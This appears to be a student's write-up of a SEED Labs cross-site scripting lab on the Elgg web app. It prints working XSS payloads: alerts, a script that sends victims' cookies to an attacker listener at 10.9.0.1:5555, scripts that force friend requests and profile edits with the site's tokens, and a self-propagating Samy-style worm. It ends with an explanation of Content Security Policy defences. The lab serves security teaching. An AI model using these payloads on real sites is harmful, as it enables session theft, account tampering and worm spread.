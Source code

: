 # XSS Attack Lab on Elgg WebApp

## Task 1: Posting a Malicious Message to Display an Alert Window

```html
<script> alert('XSS'); </script>
<!-- Or, by saving a standalone file: -->
<script type="text/javascript" src="http://www.example.com/myscripts.js">
</script>
```

## Task 2: Posting a Malicious Message to Display Cookies

```html
<script> alert(document.cookie); </script>
```

## Task 3: Stealing Cookies from the Victim's Machine

```html
<script>
 document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie)+ '>') 
</script>
```

And listen to the incoming request:
> nc -lknv 5555

## Task 4: Becoming the Victim’s Friend

The correct lines of code to complete the task is the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + token + ts;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

1. Both *elgg.security.token.__elgg_ts* and *elgg.security.token.__elgg_token* are used to get the parameters of *ts* and *token* that are needed to send the correct GET request and so the friend request. These parameters are part of the *elgg* object.
2. With *Editor Mode* only it is not possible to inject a working script because this mode automatically adds html elements into the script to adapt the text to the formatting. Thus, the script won't work. A possible solution could be to host a .js file or by intercepting the POST request sent when modifying the profile and can edit the escaped content.

## Task 5: Modifying the Victim's Profile

By looking at the POST request to modifying the profile we can build the following code:

```js
window.onload = function() {
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    
    var content = token + ts + userName + "&description=Hi I'm Samy" + guid;
    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";
    
    if(elgg.session.user.guid != samyGuid) {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
```

In this way, whoever access Samy's profile will find his *About me* section modified with the text "Hi I'm Samy".
Line (1) is for Samy not to make this attack on himself. Removing this line and entering with Samy in his profile, he will find the modified profile and the code for the attack deleted by the new text "Hi I'm Samy".

## Task 6: Writing a Self-Propagating XSS Worm

Code of the worm:

```html
<script type="text/javascript" id="worm">
    window.onload = function() {
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";

        //Pull the pieces togheter and apply the URI encoding
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var description = "&description=Hi I'm Samy";
        
        var content = token + ts + userName + description + wormCode + guid;
        var samyGuid = 59;
        var sendurl_friend = "http://www.seed-server.com/action/friends/add?friend=59" + token + ts;
        var sendurl_profile = "http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid != samyGuid) {
            var Ajax=null;
            Ajax = new XMLHttpRequest();         
            Ajax.open("GET", sendurl_friend, true);
            Ajax.send();

            Ajax = new XMLHttpRequest();   
            Ajax.open("POST", sendurl_profile, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

## Task 7: Defeating XSS Attacks Using CSP

1. In the first website (example32a.com) we can see that every script is loaded succesfully because no CSP's directive is set. For the second website (example32b.com) it is possibile to see by the configuration file that *default-src* and *script-src* directives are set. The directive *script-src* specifies valid sources for JavaScript and includes not only < script > elements but also inline script event handlers. Thus, area1, 2, 3 and 7 failed to load (which are inline scripts). The directive script-src 'self' \*.example70.com only allows scripts from the same origin and from \*.example70.com, so area4 is loaded successfully. Furthermore area6 is ok and area5 fails because this section tries to load a script from www.example60.com.
For the third website (www.example32c.com) we can see that the CSP configuration is done by the web applications. The only difference with the second website is that the directive script-src 'self' 'nonce-111-111-111' *.example70.com allows the first area to be loaded. The nonce attribute, which can be used by CSP, is useful to allow-list specific elements, such as a particular inline script.

2. As stated above the *script-src* directive blocks also inline script event handlers (onlick) so in the second and third website the button doesn't work.

3. Area5 and 6 will display ok with the following directive: script-src 'self' \*.example60.com \*.example70.com.

4. With the following directive we get the desired result: script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' \*.example60.com \*.example70.com.

5. Disallowing inline styles and inline scripts is one of the biggest security wins CSP provides. CSP response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks.

